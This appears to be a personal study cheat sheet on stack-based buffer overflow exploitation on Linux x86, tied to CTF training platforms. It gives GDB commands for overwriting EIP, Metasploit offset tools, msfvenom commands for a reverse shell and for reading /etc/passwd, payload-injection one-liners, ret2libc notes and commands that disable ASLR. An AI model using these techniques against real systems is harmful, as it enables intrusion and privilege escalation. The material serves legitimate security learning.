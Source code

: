 # Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)

<div class="row row-cols-lg-2"><div>

Buffers overflows occur when a user is able to inject more data that the system can handle, resulting in an overflow.

By overriding data, the user may be able to control and modify the program behavior, such as executing malicious code.

A buffer overflow can be categorized in

* **Stack-based** Buffer Overflow 🗃️
* **Heap-based** Buffer Overflow 🌱

This attack is very specific to the targeted executable.

```shell!
$ file some_executable
$ checksec --file=some_executable
```
</div><div>

Buffers overflows are less common nowadays, mostly due to the implementation of several security mechanisms.

* 🪤 **Data Execution Prevention** (DEP)/**NX bit**: mark as "read-only" memory regions where user input is stored such as the stack
* 🛣️ **Address Space Layout Randomization** (ASLR): randomize where everything is stored to make ROP attacks harder
* 🦆 **Canaries**/**Stack Guard**: add a known value to the stack between user input and control data to detect buffer overflows

📚 IoT and Embedded devices are a common target as they often use low-level vulnerable languages such as `C` or `C++`.
</div></div>

<hr class="sep-both">

## Stack-based Buffer Overflow

[![stack_based_buffer_overflows_linux_x86](../../../../_badges/htb/stack_based_buffer_overflows_linux_x86.svg)](https://academy.hackthebox.com/course/preview/stack-based-buffer-overflows-on-linux-x86)
[![elf_x86_stack_buffer_overflow_basic_1](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_1.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-1)
[![elf_x86_stack_buffer_overflow_basic_2](../../../../_badges/rootme/app_system/elf_x86_stack_buffer_overflow_basic_2.svg)](https://www.root-me.org/en/Challenges/App-System/ELF-x86-Stack-buffer-overflow-basic-2)
[![getting_started](../../../../_badges/htb-c/getting_started.svg)](https://app.hackthebox.com/challenges/getting-started)
[![questionnaire](../../../../_badges/htb-c/questionnaire.svg)](https://app.hackthebox.com/challenges/Questionnaire)

<div class="row row-cols-lg-2"><div>

#### Find An Attack Vector

Identify vulnerable functions such as the following C functions:

* `strcpy`, `strcat`
* `sprintf`, `vsprintf`
* `gets`/`fgets`
* `scanf`/`fscanf`/`sscanf`/`vscanf`/`vsscanf`/`vfscanf`
* `realpath`/`index`/`getopt`/`getpass`/`strecpy`/`streadd`/`strtrns`
* ...

Each function or function call may not be exploitable.

#### Take Over The Instruction Pointer

When a program calls a function, it stores the instruction pointer (`EIP`/`RIP`) to the stack. We can exploit a buffer overflow to take it over.

All commands below inject a lot of `A` to stdin <small>(assuming stdin in the vulnerable vector)</small>. The ideal result is the program crashing with the message `0x41414141 in ?? ()` which means we took over the EIP.

We can use [GDB](/programming-languages/low-level/compilers/gnu/gdb.md) on Linux:

```text!
(gdb) run <<< $(python2 -c "print '\x41' * 1000")
(gdb) run <<< $(python2 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(python3 -c "print( '\x41' * 1000 )")
(gdb) run <<< $(perl -e 'print "\x41"x1000')
(gdb) run <<< $(perl -e 'print "\x41"x1000 . "A"')
(gdb) run <<< $(printf '\x41%.0s' {1..1000})
0x41414141 in ?? ()
```

⚠️ Python3 doesn't behave as we expect for many characters.

#### Determine The Offset

We want to determine when did we override the EIP. Generate a pattern with metasploit. Run the program with the given bytes, note the EIP, and pass the EIP to metasploit to find the exact offset.

```shell!
$ /usr/share/metasploit-framework/tools/exploit/pattern_create.rb -l 1000
<some pattern>
$ /usr/share/metasploit-framework/tools/exploit/pattern_offset.rb -q 0xYOUR_NEW_EIP
offset
```
Going back to gdb, we should be able to arbitrary set the EIP:

```text!
(gdb) run <<< $(python2 -c "print( '\x41' * (offset) + '\x66\x66\x66\x66' )")
EIP uses 0x66666666 in ?? ()
```

📚 Alternatively, look for the `EBP`/`RBP` register's value.
</div><div>

Quick reminder, for x64, the EIP is 8-bits long.

<br>

#### Injecting A ShellCode

We can now generate a shellcode, inject it, and make the EIP point to our code. Just in case, we usually add NOPs (`\x90`) before our payload. We also want to identify "bad characters":

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - 256) + '$(for i in {0..255}; do printf "\\\x%02x" $i;done)' + '\x66\x66\x66\x66')")
(gdb) x/2000xb $esp+0
```

Look at the end of your `\x41` for missing values in your charset.

We can use msfvenom to generate a payload:

* Reverse Shell <small>(you can use `127.0.0.1` and a local listener)</small>

```shell!
$ msfvenom -p linux/x86/shell_reverse_tcp lhost=IP lport=PORT --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

* Execute a command such as `cat /etc/passwd`

```shell!
$ msfvenom -p linux/x86/exec cmd="cat /etc/passwd" --format c --arch x86 --platform linux --bad-chars "\x00\x09\x0a\x20"
```

To test your payload:

```shell!
(gdb) run <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
(gdb) x/2000xb $esp+0
```

The EIP can be a line of NOPs, or a line of NOPs with your code. ⚠️ Remember that there is a notion of endianness in addresses.

**Important Note** ⚠️: GDB is good for testing your payloads, but it executes the binary in your context, meaning you cannot elevate to another user. You need to execute the binary outside of GDB:

```shell!
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\x66\x66\x66\x66' )")
$ ./my_program <<< $(python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )")
$ (python2 -c "print('\x41' * (offset - nop_size - payload_size) + '\x90' * nop_size + payload + '\xFD\xFC\xFB\xFA' )" ; cat -) | ./my_program
```

The last command with `cat`/`cat -` keep stdin open if you need that.

#### Additional Notes

* 👻 Try `PAD+EIP+NOPs+SHELLCODE` when the space is limited? THE EIP should point to EIP address + EIP length.

* 👻 Use **ret2libc**: invoke `libc` functions (`system,exit`) using their address when you can't execute code in the stack. The payload concatenate 3 addresses `0x[system]0x[exit]0x[command]`. Use an environment variable for the command. [Guide+Explanations](https://www.ired.team/offensive-security/code-injection-process-injection/binary-exploitation/return-to-libc-ret2libc).
</div></div>

<hr class="sep-both">

## Random Notes

<div class="row row-cols-lg-2"><div>

#### Reuse addresses in shellcode

Find `libc` function addresses.

```shell!
$ gdb -ex 'start' --args /bin/bash
$ p system
$ p exit
```

Find the current address of the `SHELL` environment variable.

```shell!
$ gdb -ex 'start' --args /bin/bash
$ # 'SHELL' might not be at the same index ('0') for you
$ # The address may change over time
$ x/s *((char **)environ+0)
0xffffe23a: "SHELL=/bin/bash"
```
</div><div>

#### Find The Address Of A Function

To find the address of function `xxx`:`

```ps
(gdb) p xxx 
$ nm ./my_binary | grep "xxx"
$ readelf -s ./my_binary | grep "xxx"
$ objdump -d ./my_binary | grep "xxx"
```

#### Use Python To Assemble Payloads

You can use the following code to convert an address (`0xAABBCCDD`) to a payload address (`\xDD\xCC\xBB\xAA`):

```py
import struct
x = struct.pack("I" , 0xAABBCCDD)
y = struct.pack("I" , 0xEEFF0011)
print(x + y) # '\xdd\xcc\xbb\xaa\x11\x00\xff\xee'
```
</div></div>

<hr class="sep-both">

## 👻 To-do 👻

Stuff that I found, but never read/used yet.

<div class="row row-cols-lg-2"><div>

* `CVE-2021-3156` in sudo
* Attack: make the program crash (benign)
* Return Oriented Programming (ROP)
* Read Only relocations (RelRO) - read-only headers
* Position Independent Executable (PIE) - randomizes the base address of the binary
* binary can be stripped or not (reduce size)
* `Heap => go from the 0x0 to 0xf. Start at the end of .bss in x86.`, `Stack => go from 0xf to 0x0`.
* [heap](https://azeria-labs.com/heap-exploitation-part-1-understanding-the-glibc-heap-implementation/)
* [dhavalkapil](https://heap-exploitation.dhavalkapil.com/), [memory-allocation](https://samwho.dev/memory-allocation/)

Heap: malloc/free, persistent, manually managed. [Heap Exploitation](https://github.com/shellphish/how2heap)

* Use After Free (UAF)

If the program uses an object that was deleted, it's possible that a hacker may manipulate the memory to take control of that object.
</div><div>

* [vulnserver](https://github.com/stephenbradshaw/vulnserver), [dostackbufferoverflowgood](https://github.com/justinsteven/dostackbufferoverflowgood)
* [ropemporium](https://ropemporium.com/), [ROP article](https://reboare.github.io/bof/linux-stack-bof-3.html)

```
# disable ASLR
sudo echo 0 > /proc/sys/kernel/randomize_va_space
# compile 32-bit ELF binary (no DEP)
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m32
gcc xxx.c -o xxx -fno-stack-protector -z execstack -m64
gcc xxx.c -o xxx -fno-stack-protector -no-pie -Wl,-z,relro,-z,now,-z,noexecstack
```
</div></div>